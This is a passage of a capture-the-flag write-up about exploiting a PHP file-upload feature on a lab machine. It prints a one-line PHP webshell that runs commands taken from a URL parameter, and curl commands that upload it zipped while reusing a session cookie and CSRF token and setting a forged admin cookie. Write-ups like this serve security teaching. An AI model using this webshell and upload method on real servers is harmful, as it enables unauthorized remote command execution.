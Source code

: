             }
    

files are uploaded into `/uploads/[ip]/` using the random name algorithm.

The random file name is defined in `common.php`:

    
    
    <?php
    /* Stop hackers. */
    if(!defined('FROM_INDEX')) die();
    
    // If the hacker cannot control the filename, it's totally safe to let them write files... Or is it?
    function genFilename() {
            return sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT'] . time() . mt_rand());
    }
    
    ?>
    

So we can upload arbitrary data into a file, but can’t control the name.

### Webshell

Since we can’t control the name of the file we upload, we can use a php zip
filter to run a php shell.

First, create a zip with the payload:

    
    
    root@kali# cat cmd.php
    <?php echo system($_GET['cmd']); ?>
    root@kali# zip shell.zip cmd.php
      adding: cmd.php (stored 0%)
    

Now, use curl to upload to the site. To do this, we’ll need the session cookie
and the CSRF token, and then we’ll need to follow the location that comes back
as a http 302:

    
    
    root@kali# curl -sD - http://10.10.10.80/?op=upload -x 127.0.0.1:8080 | grep -e PHPSESSID -e 'name="token"'
    Set-Cookie: PHPSESSID=0v5980ekt4tqigv8e2dtlkvp54; path=/
            <input type="text" id="token" name="token" style="display: none" value="f7ab6fe8906a56cc11bc34238be8d1f5efd324c2dceb7f216c512fdea8b17a5e" style="width:355px;" />
    
    root@kali# curl -X POST -sD - -F "tip=<shell.zip" -F "name=a" -F "token=f7ab6fe8906a56cc11bc34238be8d1f5efd324c2dceb7f216c512fdea8b17a5e" -F "submit=Send Tip!" -x 127.0.0.1:8080 http://10.10.10.80/?op=upload -H "Referer: http://10.10.10.80/?op=upload" -H "Cookie: admin=1; PHPSESSID=0v5980ekt4tqigv8e2dtlkvp54" | grep Location
    Location: ?op=view&secretname=051f7db8f8de40c856efbed60179e6e1b0b528b1
    

Two things to note here:

  1. It’s important to use the `-F` (`–form) option here for the data.
  2. Most references to using curl to upload files show using the `@` symbol in front of the filename. That doesn’t work in this case, because the site is expecting raw text. The curl man page explains why we’ll use the `<` character: 
